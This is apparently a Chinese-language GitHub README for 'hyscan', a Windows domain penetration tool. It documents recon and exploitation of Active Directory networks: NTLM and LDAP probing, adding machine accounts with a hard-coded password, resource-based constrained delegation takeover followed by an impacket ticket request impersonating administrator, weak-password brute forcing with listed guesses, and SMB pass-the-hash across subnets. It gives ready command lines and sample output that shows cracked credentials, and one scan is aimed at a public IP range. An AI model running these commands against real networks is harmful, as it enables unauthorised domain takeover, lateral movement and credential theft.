# hyscan

## 学习点

1、ntlm/kerberos协议的学习

2、win32/com的学习

3、ldap/wnet/wmi的学习

4、多线程/线程池框架开发的学习

## 功能

- 收集(Gather)
  - [√] 基于 NTLM type2 135端口探测主机信息
  - [√] 基于 NTLM type2 445端口探测主机信息
  - [ ] 基于 NTLM type2 5985端口探测主机信息
  - [√] 基于 OXID DCOM接口探测多主机网卡
  - [√] 基于 LDAP 委派配置不当探测（约束委派/非约束委派/基于资源的约束委派）
  - [√] 基于 LDAP GPO组策略搜集
  - [√] 基于 LDAP 文件服务器搜集
  - [√] 基于 LDAP 信任域搜集
  - [√] 基于 LDAP DNS记录搜集
  - [√] 基于 端口开放扫描(服务指纹识别)
  - [√] 基于 WEB服务标题扫描
  - [√] 基于 共享资源枚举NetShareEnum
  - [√] 基于 共享会话枚举NetSessionEnum
  - [√] 基于 注册表枚举登录会话(定位高权限，PC机器无法利用，只能在server机器上使用)
- 利用(Exploit)
  - [√] 基于 IPC Brute(域/本地组弱口令自动枚举)
  - [ ] 基于 WMIC Brute(域/本地组弱口令自动枚举)
  - [√] 基于 Self WMI PTH
  - [√] 基于 Self/Other SMB PTH
  - [√] 基于 LDAP 利用（添加机器用户/添加DNS记录/基于资源的约束委派利用和提权）
  - [ ] 基于 TCP加密流量代理
  - [ ] 基于 kerberos TGT票据请求
  - [ ] 基于 kerberos ST票据请求
  - [√] 基于 端口第三方服务利用(SMB MS-17010/SMBGhost探测/redis等第三方未授权)

## 演示

`hyscan.exe --help`



### 基于 NTLM type2 135端口探测主机信息

原因：基于ntlm type2 比起netbios类似的探测更加的隐蔽，并且同样可以域外通过DNS定位域

`hyscan.exe --scantype ntlmscan --ntlmtype wmi --ip 192.168.4.130`



`hyscan.exe --scantype ntlmscan --ntlmtype wmi --cidr 192.168.4.1/24`



如果觉得慢的话，可以设置线程参数，没有--thread 默认为50线程

`hyscan.exe --scantype ntlmscan --ntlmtype wmi --cidr 192.168.4.1/24 --thread 100`



SMB的type 2 445端口也是一样的，只需要如下即可

`hyscan.exe --scantype ntlmscan --ntlmtype smb --ip 192.168.4.130`

`hyscan.exe --scantype ntlmscan --ntlmtype smb --cidr 192.168.4.1/24`

`hyscan.exe --scantype ntlmscan --ntlmtype wmi --cidr 192.168.4.1/24 --thread 100`

### 基于 OXID DCOM接口探测多主机网卡

`hyscan.exe --scantype oxidscan --ip 192.168.4.130`



`hyscan.exe --scantype oxidscan --cidr 192.168.4.1/24`



### 基于 LDAP 委派配置不当探测（约束委派/非约束委派/基于资源的约束委派）

`hyscan.exe --scantype ldapscan --dc 192.168.4.11 --searchDelegation --dc 192.168.4.11 --domainName hengge.com`



其他的相关的LDAP查询命令都是一样的，都写在了命令行参数中了，这里就不用再每个都演示一下了

### 基于 LDAP 利用（添加机器用户/添加DNS记录/基于资源的约束委派利用）

#### 添加机器用户

这里添加机器用户的话，密码`123456`是写死的，要改的话自己可以改下....

`hyscan.exe --scantype ldapscan --ldaptype addComputer --dc 192.168.4.11 --domainName hengge.com --pcname testcbd`



#### 基于资源的约束委派利用

将自身能接管的主机都进行接管操作，原理就是设置了对应的`msds-allowedtoactonbehalfofotheridentity`参数来实现

`hyscan.exe --scantype ldapscan --ldaptype RBCD --dc 192.168.4.11 --domainName hengge.com --pcname hgtest`



之后利用的话就直接用impacket的getST.py进行申请参数为pcname的主机的TGS(ST)票据然后被接管的主机就可以了

`python getST.py -dc-ip 192.168.4.11 hengge.com/新加的机器名$:新加的机器密码 -spn cifs/被设置了接管msds-allowedtoactonbehalfofotheridentity的主机名 -impersonate administrator`

### 基于 端口开放扫描(服务指纹识别) 和 端口第三方服务利用(SMB MS-17010/SMBGhost探测/redis等第三方未授权)

示例:

单IP，多端口：`hyscan.exe --scantype portscan --ip 192.168.4.11 --port 80,90 --thread 100`

单IP，多端口：`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port 1-100,6379,445 --thread 100`

top100：`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port top100 --thread 100`

top1000：`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port top1000 --thread 100`



最终记录四种条目的结果

`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port top100 --thread 100`

```
--------------------------存活主机的地址--------------------------
192.168.4.1
192.168.4.11
192.168.4.2
192.168.4.130
192.168.4.129
192.168.4.255
192.168.4.254
--------------------------主机开放的端口--------------------------
192.168.4.1:80 HTTP
192.168.4.11:5985
192.168.4.11:389
192.168.4.11:445 SMB
192.168.4.11:139
192.168.4.11:53
192.168.4.11:135
192.168.4.11:3306
192.168.4.11:49152
192.168.4.11:49154
192.168.4.130:5985
192.168.4.130:445 SMB
192.168.4.130:139
192.168.4.130:135 RPC
192.168.4.130:49152
192.168.4.130:49154
192.168.4.129:389
192.168.4.129:3389
192.168.4.129:6379 Redis
192.168.4.129:21
192.168.4.129:445 SMB
192.168.4.129:139
192.168.4.129:53 DNS
192.168.4.129:135
192.168.4.129:1433 MSSQL
192.168.4.129:49152
192.168.4.129:49154
192.168.4.129:80 HTTP
--------------------------可利用的服务端口--------------------------
192.168.4.1:80 http
192.168.4.11:5985 http
192.168.4.11:389 ldap
192.168.4.11:3306 mysql
192.168.4.11:445 smb
192.168.4.130:5985 http
192.168.4.130:445 smb
192.168.4.129:389 ldap
192.168.4.129:21 ftp
192.168.4.129:445 smb
192.168.4.129:3389 rdp
192.168.4.129:1433 mssql
192.168.4.129:80 http
--------------------------存在漏洞的服务端口--------------------------
192.168.4.11 ldap unauth
192.168.4.11 smb MS17010
192.168.4.11 mysql weakpass root/123456
192.168.4.129 ldap unauth
192.168.4.129 smb MS17010
192.168.4.129 ftp weakpass ftpuser/ftp@123
```

### 基于 WEB服务标题扫描

`hyscan.exe --scantype webscan --cidr 120.79.65.58/24 --port 80,8080 --thread 300`



测试`120.79.66.58/24`网段 ，100线程 200线程 300线程结果都是扫描出126个数量的结果



### 基于 IPC Brute(域/本地组弱口令自动枚举)

借鉴了ske大师兄的思路，思路如下

- 进入内网中，判断当前的用户权限

- - 如果当前的用户权限为域用户权限

- - - 列出域里所有的域机器

- - - 对获得的每一台域机器探测存活

- - - - 如果存活的话，用当前的域用户和上面列出的每一台域机器建立IPC/WMI连接，接着把每台域机器的本地administrator组都取出来（其中会包括域管理员，域用户，域组，本地administrator，本地的其他用户）

- - - - - 如果是存在组的话，那么对该组继续进行查询，如果是"Domain Admins"组的话，跳过

- - - - - 如果是存在组的话，那么对该组继续进行查询，如果是"Domain Users"组的话，那么为成功，因为当前域用户默认为"Domain Users"组内的成员

- - - - - 本地管理组非administrator用户，如"zpchcbd"，则探测密码为"zpchcbd"，"admin@123"，"zpchcbd@123"，"P@ssw0rd"

- - - - - 本地管理组administrator用户，如"admin@123"，"123456"

- - - - 如果不存在则跳过继续探测下一台

`hyscan.exe --scantype weakscan --dc 192.168.4.11 --domainName 当前域名 --domainUsername 当前域名\当前域用户名 --domainPassword 当前域用户密码 --domainPersonalPassword 自己填的一个要探测的密码`

如下所示：

1、已知当前拿下权限的域用户的密码

`hyscan.exe --scantype weakscan --dc 192.168.4.11 --domainName HENGGE --domainUsername HENGGE\ske --domainPassword admin@123456 --domainPersonalPassword admin@44332211`



2、不知道当前拿下权限的域用户的密码，此时密码填写为`null`就好了

`hyscan.exe --scantype weakscan --dc 192.168.4.11 --domainName HENGGE --domainUsername HENGGE\ske --domainPassword null --domainPersonalPassword admin@44332211`



### 基于 SMB/WMI PTH

PTH的时候建议不要用WMI，我这里写的WMI有问题，WINDOWS COM组件我不太了解，它这里的WMI COM组件想要实现多线程的话会有问题，我这里解决不了，这里WMI这里写的就是单线程的，会很浪费时间，所以PTH的话这里只能用SMB来进行测试，SMB这里是多线程的

`hyscan.exe --scantype pthscan --pthtype smb --cidr 192.168.4.1/24 --thread 100`



`hyscan.exe --scantype pthscan --pthtype wmi --cidr 192.168.4.131/24`



加上了一个支持SMB自定义账号密码的PTH

`hyscan.exe --scantype pthscan --pthtype smb --cidr 192.168.4.1/24 --pthusername prjadm --pthpassword admin@123 --thread 100`



### 基于net枚举的相关

网络会话枚举

`hyscan.exe --scantype netscan --nettype getNetSession --cidr 192.168.4.1/24`



注册表会话记录枚举

`hyscan.exe --scantype netscan --nettype getLoggedUsers --cidr 192.168.4.1/24`


网络共享资源枚举

`hyscan.exe --scantype netscan --nettype getNetShare --cidr 192.168.4.1/24`

## 参考

https://github.com/0x727/ShuiYing_0x727

https://github.com/SkewwG/domainTools

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/

https://github.com/robertdavidgraham/masscan

https://www.cnblogs.com/unicodeSec/p/15348117.html

https://www.4hou.com/posts/GzD3

## 参考

2022.1.22变动

1)本地组枚举的一些解析小bug，这里改了下

2)实战的时候wmi/smb探测ntlm type2的时候速度太慢，加上了先发送arp进行探测存活再进行ntlm通信

3)修复了下smb ntlm type2探测的bug

2022.1.27变动

1)把域管登录定位NetSession代码补上了

2)遇到的情况，有时候不出网，不好上线到cs/msf上，这里PTH的话，就需要用其他工具来实现，所以这里的话再加上PTH的自定义账号和密码的横向

3)本地组弱口令自动枚举的功能又改了下，忽略了一种情况就是本地组中除了本身域用户的其他域用户的情况下，这里代码补上

2022.1.28变动

1)本地组弱口令自动枚举改了点代码，忽略了一种情况就是环境中的管理员组不一定是"administrators"，有可能是"admins"等等之类的，这里用samr相关的方法来进行获取，通过固定的RID 544来获取就可以解决了

